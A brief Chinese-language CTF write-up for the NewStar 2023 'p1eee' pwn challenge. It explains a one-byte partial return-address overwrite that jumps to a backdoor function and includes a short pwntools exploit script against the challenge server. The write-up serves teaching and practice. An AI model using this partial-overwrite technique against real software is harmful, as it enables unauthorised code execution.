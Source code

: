 ```yaml
---
title: newstar2023 week1 - p1eee
date: 2023/9/27 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`pwn`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

该程序存在后门函数，因此尝试重定向回该函数  
但是只能溢出一个字节

已知在小端计算机上数据存储应是：  
假如main函数地址为0x55555555127b，那么地址从小到大存储为  
7b 12 55 55 55 55 00 00  
那么这一个字节可以覆盖7b

反汇编后可知，后门函数地址和read函数所在函数返回地址第一个字节一致，
因此只需要变化此字节即可

## EXPLOIT

```python
from pwn import *
sh = remote("node4.buuoj.cn", 27047)
sh.sendline(b'0'*40 + p8(0x6c)) # addr of backdoor
sh.interactive()
```

后门函数所在地址第一字节是0x64，但是若直接使用，会导致rbp & 0xf != 0，
所以跳转到LEA处即可

Done.
